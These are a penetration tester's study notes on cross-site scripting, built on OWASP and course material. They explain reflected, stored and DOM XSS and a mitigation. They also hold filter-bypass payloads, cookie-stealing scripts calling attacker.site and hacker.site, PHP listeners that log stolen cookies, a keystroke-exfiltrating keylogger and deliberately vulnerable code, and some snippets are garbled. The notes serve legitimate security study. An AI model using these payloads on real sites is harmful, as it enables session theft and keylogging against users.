



# XSS attack - Cross-Site Scripting


??? quote "OWASP reference"
	[OWASP Web Security Testing Guide 4.2](../OWASP/index.md) > 7. Data Validation Testing > 7.2. Testing for Stored Cross Site Scripting
	
	|ID|Link to Hackinglife|Link to OWASP|Description|
	|:---|:---|:---|:---|
	|7.1|[WSTG-INPV-01](../OWASP/WSTG-INPV-01.md)|[Testing for Reflected Cross Site Scripting](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)|- Identify variables that are reflected in responses.  - Assess the input they accept and the encoding that gets applied on return (if any).|
	|7.2|[WSTG-INPV-02](../OWASP/WSTG-INPV-02.md)|[Testing for Stored Cross Site Scripting](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)|- Identify stored input that is reflected on the client-side.  - Assess the input they accept and the encoding that gets applied on return (if any).|
	|11.1|[WSTG-CLNT-01](../OWASP/WSTG-CLNT-01.md)|[Testing for DOM-Based Cross Site Scripting](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)|- Identify DOM sinks.  - Build payloads that pertain to every sink type. |


??? abstract "Sources for these notes"
    - [My Ine: eWPTv2](https://my.ine.com/INE/courses/f0ccd609/web-application-penetration-testing-xss-attacks).
    - [Hacktricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting).
    - [XSS Filter Evasion Cheat Sheet¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html).
    - [OWASP: WSTG](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/).
    - Notes during the Cibersecurity Bootcamp at The Bridge.
    - Experience pentesting applications.


Cross-Site scripting (XSS) is a client-side web vulnerability that allows attackers to inject malicious scripts into web pages. This vulnerability is typically caused by a lack of input sanitization/validation in web applications. Attackers leverage XSS vulnerabilities to inject malicious code into web applications. Because XSS is a client side vulnerability, these scripts are executed by the victims browser. XSS vulnerabilities affect web applications that lack input validation and leverage client-side scripting languages like Javascript, Flash, CSS etc.

```
# Quick steps to test XSS 
# 1. Find a reflection point (inspect source code and expand all tags to make sure that it's really a reflection point and it's not parsing your input)
# 2. Test with <i> tag
# 3. Test with HTML/JavaScript code (alert('XSS'))
```

But, of course, you may use an extensive repository of payloads. This [OWASP cheat sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html) is kind of a bible.

XSS attacks are typically exploited for the following objectives:

1. Cookie stealing/Session hijacking - Stealing cookies from users with authenticated sessions, allowing you to login as other users by leveraging the authentication information contained within a cookie.
2. Browser exploitation - Exploitation of browser vulnerabilities. 
3. Keylogging - Logging keyboard entries made by other users on a web application.
4. Phishing - Injecting fake login forms into a webpage to capture credentials.
5. ... and many more.


## Types of Cross-Site Scripting XSS

**1. Reflected attacks**: malicious payload is carried inside the request that the browser sends. You need to bypass the anti-xss filters. This way when the victim clicks on it it will be sending their information to the attacker (limited to js events).  

Example:

```
http://victim.site/seach.php?find=<payload>
```

**2. Persistent or stored XSS attacks**: payload is sent to the web server and then stored. The most common vector for these attacks are HTML forms that submit content to the web server and then display that content back to the users (comments, user profiles, forum posts…). Basically if the url somehow stays in the server, then, every time that someone accesses to it, they will suffer the attack.

**3. DOM based** XSS attacks: tricky one. This time the javascript file procedes from the server, and in that sense, the file is trusteable. Nevertheless, the file modifies changes in the web structure. [Quoting OWASP](https://owasp.org/www-community/attacks/DOM_Based_XSS): "DOM Based XSS (or as it is called in some texts, “type-0 XSS”) is an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an unexpected manner".

### 1. Reflected Cross Site Scripting


!!! quote ""
	[OWASP Web Security Testing Guide 4.2](../OWASP/index.md) > 7. Data Validation Testing > 7.1. Testing for Reflected Cross Site Scripting

|ID|Link to Hackinglife|Link to OWASP|Description|
|:---|:---|:---|:---|
|7.1|[WSTG-INPV-01](../OWASP/WSTG-INPV-01.md) |[Testing for Reflected Cross Site Scripting](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)|- Identify variables that are reflected in responses.  - Assess the input they accept and the encoding that gets applied on return (if any).|

Reflected Cross-site Scripting (XSS) occur when an attacker injects browser executable code within a single HTTP response. The injected attack is not stored within the application itself; it is non-persistent and only impacts users who open a maliciously crafted link or third-party web page. When a web application is vulnerable to this type of attack, it will pass unvalidated input sent through requests back to the client.

[XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

#### Causes

This vulnerable PHP code in a welcome page may lead to an XSS attack:

```php
<?php $name = @$_GET['name']; ?>

Welcome <?=$name?>

```


### 2.  Persistent or stored Cross Site Scripting

??? quote "OWASP reference"
	[OWASP Web Security Testing Guide 4.2](../OWASP/index.md) > 7. Data Validation Testing > 7.2. Testing for Stored Cross Site Scripting
	
	|ID|Link to Hackinglife|Link to OWASP|Description|
	|:---|:---|:---|:---|
	|7.2|[WSTG-INPV-02](../OWASP/WSTG-INPV-02.md)|[Testing for Stored Cross Site Scripting](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)|- Identify stored input that is reflected on the client-side.  - Assess the input they accept and the encoding that gets applied on return (if any).|


Stored cross-site scripting is a vulnerability where an attacker is able to inject Javascript code into a web application’s database or source code via an input that is not sanitized. For example, if an attacker is able to inject a malicious XSS payload in to a webpage on a website without proper sanitization, the XSS payload injected in to the webpage will be  executed by the browser of anyone that visits that webpage.


#### Causes

This vulnerable PHP code in a welcome page may lead to a stored XSS attack:

```php
<?php 
$file  = 'newcomers.log';
if(@$_GET['name']){
	$current = file_get_contents($file);
	$current .= $_GET['name']."\n";
	//store the newcomer
	file_put_contents($file, $current);
}
//If admin show newcomers
if(@$_GET['admin']==1)
	echo file_get_contents($file);
?>

Welcome <?=$name?>
```


### 3.  DOM Cross Site Scripting (Type-0 or Local XSS)

??? quote "OWASP reference"
	[OWASP Web Security Testing Guide 4.2](../OWASP/index.md) > 7. Data Validation Testing > 7.2. Testing for Stored Cross Site Scripting
	
	|ID|Link to Hackinglife|Link to OWASP|Description|
	|:---|:---|:---|:---|
	|11.1|[WSTG-CLNT-01](../OWASP/WSTG-CLNT-01.md)|[Testing for DOM-Based Cross Site Scripting](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)|- Identify DOM sinks.  - Build payloads that pertain to every sink type. |


The key in exploiting this XSS flaw is that the client-side script code can access the browser's DOM, thus all the information available in it. Examples of this information are the URL, history, cookies, local storage,...  Technically there are two keywords: sources and sinks. Let's use the following vulnerable code:

#### Causes

This vulnerable code in a welcome page may lead to a DOM XSS attack:
http://example.com/#w!Giuseppe

```html
<h1 id='welcome'></h1>
<script>
	var w = "Welcome";
	var name = document.location.hash.search(/#W!1)+3,
				document.location.hash.length
				);
	document.getElementById('Welcome').innerHTML = w + name;
</script>
```


>location.hash is the source of the untrusted input.
>.innerHTML is the sink where the input is used.


To deliver a DOM-based XSS attack, you need to place data into a source so that it is propagated to a sink and causes execution of arbitrary JavaScript.
The most common source for DOM XSS is the URL, which is typically accessed with the `window.location` object.

What is a sink? A sink is a potentially dangerous JavaScript function or DOM object that can cause undesirable effects if attacker-controlled data is passed to it. For example, the `eval()` function is a sink because it processes the argument that is passed to it as JavaScript. An example of an HTML sink is `document.body.innerHTML` because it potentially allows an attacker to inject malicious HTML and execute arbitrary JavaScript.

Summing up: you should avoid allowing data from any untrusted source to be dynamically written to the HTML document.


Which sinks can lead to DOM-XSS vulnerabilities:

- document.write()
- document.writeln() 
- document.replace()
- document.domain 
- element.innerHTML 
- element.outerHTML 
- element.insertAdjacentHTML 
- element.onevent

This project, [DOMXSS wiki](https://code.google.com/archive/p/domxsswiki/) aims to identify sources and sinks methods exposed by public, widely used javascript frameworks.

### 4. Universal XSS (UXSS)

Universal XSS is a particular type of Cross Site Scripting that does not leverage the flaws against web application, but the browser, its extensions or its plugins. A typical example for this could be found within the Google Chrome WordReference Extension, that did not properly sanitized the input of the search.


## Attack techniques

### Quick steps to test XSS 

**1. Detect input vectors**. Find a reflection point for a given input entry. This is tricky, since sometimes the entered value is reflected on a different part of the application.

**2. Check impact**. Once identified the reflection point, inspect source code and recursively expand all tags to make sure that it's really a reflection point and it's not parsing your input.  This is also tricky, but there are techniques as encoding and double encoding that will allow us to bypass some XSS filters.

**3. Classify correctly what your injection point is like**. Are you injecting raw HTML directly or a  HTML tag? Are you injecting a tag attribute value? Are you injecting into the javascript code? Where in the DOM are you operating? Is there a WAF tampering your input? Answering these questions is the same of knowing what characters you are needing to escape. 

### 1. Bypassing XSS filters

Reflected cross-site scripting attacks are prevented as the web application sanitizes input, a web application firewall blocks malicious input, or by mechanisms embedded in modern web browsers.

#### 1.1. Injecting inside raw HTML

```html
<script>alert(1)</script>

<svg onload=alert('XSS')>
```

#### 1.2. Injecting into HTML tags

Firstly, some common escaping characters that may be parsed (and you need to further investigate to see how the application is treating them) are: 

- `>` (greater than)
- `<` (less than)
- `&` (ampersand)
- `'` (apostrophe or single quote)
- `"` (double quote)


Additionally, there might exist a filter for the characters `script`. Being that the case: 

**1.** Insert unexpected variations in the syntax such as random capitalization, blank spaces, new lines...: 

```
"><script >alert(document.cookie)</script >
"><ScRiPt>alert(document.cookie)</ScRiPt>
```

**2.** Bypass non-recursive filtering:

```
<scr<script>ipt>alert(documInjecting into HTML tagsent.cookie)</script>
```

**3.** Bypass encoding.

```
# Simple encoding
"%3cscript%3ealert(document.cookie)%3c/script%3e

# More encoding techniques: 
# 1. We lookk for a charcode calculator and enter our payload, for instance "lala" would be: 34, 108, 97, 108, 97, 34
# 2. Them we put those numbers in our payload
<script>alert(String.fromCharCode(34, 108, 97, 108, 97, 34))</script>
```

Double encoding is very effective. I've run into cases in the wild.

**4.** Unexpected parent tags:

```
<svg><x><script>alert('1'&#41</x>
```

**5.** Unexpected weird attributes, null bytes:

```
<script x>
<script a="1234">
<script ~~~>
<script/random>alert(1)</script>
<script ///Note the newline
>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>
```


**More**. If the `script`tag is super blacklisted in all their forms, use other tags:

```
 ... 
<iframe>
<input>
```

Or even, make out your own:

```
<lalala> 
```


#### 1.3. Injecting into HTML attributes

##### a) id

For instance, this injection endpoint (INJ):

```html
<div id="INJ">
```

A payload for grabbing the cookies and have them sent to our attacker server would be:

```html
x" onmouseover="new Image().src="https://attacker.site/c.php?cc='+escape(document.cookie)
```


##### b) href

For instance, this injection endpoint (INJ):

```html
<a href="victim.site/#INJ">
```

A payload for grabbing the cookies and have them sent to our attacker server would be:

```html
x" onmouseover="new Image().src="https://attacker.site/c.php?cc='+escape(document.cookie)
```

##### c) height

For instance, this injection endpoint (INJ):

```html
<video  width="320" height="INJ">
```

A payload for grabbing the cookies and have them sent to our attacker server would be:

```html
240" src=x onerror="new Audio().src="https://attacker.site/c.php?cc='+escape(document.cookie)
```


**1.** One nice technique is using non-common javascript events.

```
# The usual payloads contains these events:
alert()
confirm()
prompt()

# Try others:
onload()
onerror()
onmousehover
...
```

See complete reference at: [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

**2.** Sometimes the events are filtered. This is a very common regex for filtering:

```
(on\w+\s*=)
```

Bypassing it:

```
<svg/onload=alert(1)>
<svg//////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id='x'onload=alert(1)>
```

**3.** Bettering up the filter:

```
(?i)([\s\"'`;\/0-9\=]+on\w+\s*=)
```

Bypassing it:

```
<svg onload%09=alert(1)>
<svg %09onload=alert(1)>
<svg %09onload%09=alert(1)>
<svg onload%09%20%28%2c%3B=alert(1)>
<svg onload%0B=alert(1)>
```


[https://shazzer.co.uk/vectors](https://shazzer.co.uk/vectors) is a great resource to see potential attack vectors. 



#### 1.4. Going beyond the `<script>`tag

```
<a href="javascript:alert(1)">click</a>
<a href="data:text/html;base64,amF2YXNjcmlwdDphbGVyKDEp">click</a>
<form action="javascript:alert(1)"><button>send</button></form>

<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
```


### 2. Bypassing the HTTPOnly flag

The  HTTPOnly flag can be enabled with the response header `Set-Cookie`:

```
Set-Cookie: <cookie-name>=<cookie-value>; HttpOnly
```

HTTPOnly forbids javaScript from accessing the cookies, for example, through the `Document.cookie` property.

#### 2.1. Cross Site Tracing

[OWASP Cross Site Tracing reference](https://owasp.org/www-community/attacks/Cross_Site_Tracing)

Technique for bypassing HTTPOnly flag. Since scripting languages are blocked due to the use of HTTPOnly, this technique proposes to use the HTTP TRACE method.

HTTP TRACE method is a method used for debugging, and it echoes back input requests to the user. So, if we send HTTP headers normally inaccessible to Javascript, we will be able to read them.

We will take advantage of the javascript object `XMLHttpRequest`that provides a way to retrieve data from an URL without having to do a full page refresh:

```html
<script> //TRACE Request
	var xmlhttp = new XMLHttpRequest()M
	var url = 'http://victim.site/';
	xmlhttp.withCredentials = true; // Send cookie header
	xmlhttp.open('TRACE', url);

	// Callback to log all response headers
	function hand() { console.log(this.getAllResponseHeaders());}
	xmlhttp.onreadystatechange = hand;

	xmlhttp.send(); // Send the request

</script>
```

Modern browsers block the HTTP TRACE method in XMLHttpRequest and other scripting languages and libraries such as JQuery, Silverlight... But if the attacker finds another way of doing HTTP TRACE requests, then they can bypass the HTTPOnly flag. 

> For instance, Amit Klein found a simple trick for IE 6.0 SP2. Instead of using TRACE for the method, he used `\r\nTRACE`and the payload worked under certain circumstances.


>**CVE-2012-0053: Apache HTTPOnly cookie disclosure**. For Apache HTTP Server 2.2.x through 2.2.21. For an HTTP-Header value exceeding the server limits, the server responded with a HTTP 400 Bad Request including the complete headers containing the HTTPOnly cookies. ([https://gist.github.com/pilate/1955a1c28324d4724b7b](https://gist.github.com/pilate/1955a1c28324d4724b7b)). [BeEF](../beef.md) has a module named Apache Cookie Disclosure, available under Exploits section.

#### 2.2. BeEF Tunneling Proxy

An alternative to stealing protected cookies is to use the victim browser as a proxy. The Tunneling Proxy in [BeEF](../beef.md) exploits the XSS flaw and uses the victim browser to perform requests as the victim user to the web application. Basically, it tunnels requests through the hooked browser. By doing so, there is no way for the web application to distinguish between requests coming from legitimate user and requests forged by an atacker. 
BeEF allows you to bypass other web developer protection techniques such as using multiple validations (User-agent, custom headers,...)

### Bypassing WAFs

#### ModSecurity

```
<svg onload='new Function`[“_Y000!_”].find(al\u0065rt)`'>
```

## Examples of typical attacks
### 1. Cookie stealing: examples and techniques

#### Example 1

Identify an injection endpoint and test that the app is vulnerable to a basic xss payload such as:

```html
<script>alert(‘lala’)</script>
```

 Once you know is vulnerable, prepare a malicious javascript code for stealing the cookies:

```js
<script>
var i = new Image();
i.src = "http://attacker.site/log.php?q="+document.cookie;
</script>
```
  
Add that code to the injection endpoint that you detected in step 1. That code will save the cookie in a text file on the attacker site.

Create a text file (log.php) for capturing the sent cookie in the attacker site:

```php
	<?php
		$filename=”/tmp/log.txt”;
		$fp=fopen($filename, ‘a’);
		$cookie=$_GET[‘q`];
		fwrite($fp, $cookie);
		fclose($fp);
	?>
```

Open the listener in the attacker site and send the crafted URL with the payload included. Once someone open it, they will be sending to the attacker their cookies jar.

#### Example 2

1. The attacker creates a get.php file and saves it into its server. 

2. This php file will store the data that the attacker server receives into a file.

3. This could be the content of the get.php file:

```php
<?php
	$ip = $_SERVER(‘REMOTE_ADDR’);
	$browser = $_SERVER(‘HTTP_USER_AGENT’);

	$fp = fopen(‘jar.txt’, ‘a’);

fwrite($fp, $ip . ‘ ‘ . $browser . “ \n”);
fwrite($fp, urldecode($_SERVER[‘QUERY_STRING’]) . “ \n\n”);
fclose($fp);
?>
```

4. Now in the web server the attacker achieve to store this payload:

```html
<script>
var i = new Image();
i.src = “http://attacker.site/get.php?cookie=”+escape(document.cookie);
</script>

# Or in one line:
<script>var i = new Image(); i.src = “http://10.86.74.7/moville.php?cookie=”+escape(document.cookie); </script>
```

#### Techniques for cookie stealing

Let's suppose we have our PHP script C.php listening on our hacker.site domain. 

Example of C.php Simple Listerner:

```php
# Instruct the script to simply store the GET['cc'] content in a file
<?php
error_reporting(0); # Turn off all error reporting
$cookie= $_GET['cc']; # Request to log
$file= '_cc_.txt'; # The log file
$handle= fopen($file,"a"); # Open log file in append mode
fwrite($handle,$cookie."\n"); # Append the cookie
fclose($handle); # Append the cookie

echo '<h1>Page under construction</h1>'; # Trying to hide suspects.
```

Example of C.php Listerner recording hosts, time of logging, IP addresses:

```php
# Instruct the script to simply store the GET['cc'] content in a file
<?php
error_reporting(0); # Turn off all error reporting

function getVictimIP()= { ... } # Function that returns victim IP
function collect() {
$file= '_cc_.txt'; # The log file
$date=date("l dS of F Y h:i:s A");
$IP=getVictimIP();
$cookie= $_SERVER['QUERY_STRING'];

$log="[$date]\n\t> VictimIP: $IP\n\t> Cookies: $cookie\n\t> Extra info: $info\n";
$handle= fopen($file,"a"); # Open log file in append mode
fwrite($handle,$log."\n\b"); # Append the cookie
fclose($handle); # Append the cookie
}
collect();
echo '<h1>Page under construction</h1>'; # Trying to hide suspects.
```

Additionally we can use: [netcat](../netcat.md), [Beef](../beef.md),...


### 2. DOM based attack: incorrect use of eval()

In the following website we can see the code below:




And in the source code we can pinpoint this script:

```html
<script>
	var statement = document.URL.split("statement=")[1];
	document.getElementById("result").innerHTML = eval(statement);
</script>
```

This JavaScript code is responsible for calculating and dynamically displaying the result of the arithmetic operation via the DOM splits the URL and parses the value of the **statement** parameter to the JavaScript **eval()** function for evaluation/calculation.

The JavaScript **eval()** function is typically used by developers to evaluate JavaScript code, however, in this case, it has been improperly implemented to evaluate/perform the arithmetic operation specified by the user.

**NOTE: The **eval()** function should never be used to execute JavaScript code in the form of a string as it can be leveraged by attackers to perform arbitrary code execution.**

Given the improper implementation of the **eval()** function, we can inject our XSS payload as a value of the **statement** parameter and forces the **eval()** function to execute the JavaScript payload.




### 3. Defacements

We may categorize defacements into two types: Non-persistent (Virtuals) and Persistent. 

- *Non-persistent defacements* don't modify the content hosted on the target web application. They are basically abusing Reflected XSS.

```
# Code
<?php $name = @$_GET['name']; ?>
Welcome <?=$name?>

# URL
https://victim.site/XSS/reflected.php?name=%3Cscript%3Edocument.body.innerHTML=%22%3Cimg%20src=%27http://hackersite/pwned.png%27%3E%22%3C/script%3E
```

- *Persistent defacements* modify permanently the content hosted on the target web application. They are basically abusing Stored XSS.

[Tools for cloning a website](../cloning-a-site.md)

### 4. Keyloggers

A tool: [http_javascript_keylogger](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/server/capture/http_javascript_keylogger.rb). See also [my notes on that metasploit module](../metasploit.md).

Event logger from [BeEF](../beef.md).

The following code:

```js
var keys = "" //Where > where to store the key strokes
document.onkeypress = function(e) {
	var get = windows.event ? event : eM
	var key = get.keyCode ? get.keyCode : get.charCode;
	key = String.fromCharCode(key);
	keys += key;
}

window.setInterval(function()) {
	if(keys != "") {
		//HOW> sends the key strokes via GET using an Image element to listening hacker.site server
		var path = encodeURI("http://hacker.site/keylogger?k=" + keys);
		new Image().src = path;
		keys = "";
		
	}
}, 1000; // WHEN > sends the key strokes every second
```

Additionally, we have the [metasploit](../metasploit.md) module auxiliary(http_javascript_keylogger), an advance version of the previous javascript code. It creates the Javascript payload with a keylogger, which could be injected within the vulnerable web page and automatically starts the listening server. To see how it works, set the DEMO option to true.

### 5. Network attacks

A way to enter within intranet networks is by passing through HTTP traffic that, despite other protocols, is usually allowed to pass by firewalls.

**1.** IP detection

The first step before putting your feet in a network is to retrieve as much network information as possible about the hooked browser. For instance by revealing its internal IP address and subnet.

>Traditionally, this required the use of external browser's pluggins such as Java JRE and some interaction from the victim: 
>- Installing **My Address Java Applet**:  Unsigned java applet that retrieves IP. 
>- Changing the java security settings enabling or reducing the security level).

Use of **https://net.ipcalf.com/** , that abuses WebRTC HTML5 feature.


**2.** Subnet detection

**3.** Ping Sweeping


## Mitigations for cookie stealing

### HTTPOnly 

The  HTTPOnly flag can be enabled with the response header `Set-Cookie`:

```
Set-Cookie: <cookie-name>=<cookie-value>; HttpOnly
```

HTTPOnly forbids javaScript from accessing the cookies, for example, through the `Document.cookie` property. Note that a cookie that has been created with `HttpOnly` directive will still be sent with JavaScript-initiated requests, for example, when calling `XMLHttpRequest.send()` or `fetch()`. This mitigates attacks against cross-site scripting XSS.


## Tools and payloads

+ [XSSER](../xsser.md): An automated web pentesting framework tool to detect and exploit XSS vulnerabilities
+ **Vectors (payload) regularly updated**: [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).
+ **Evasion Cheat Sheet**: [https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html).


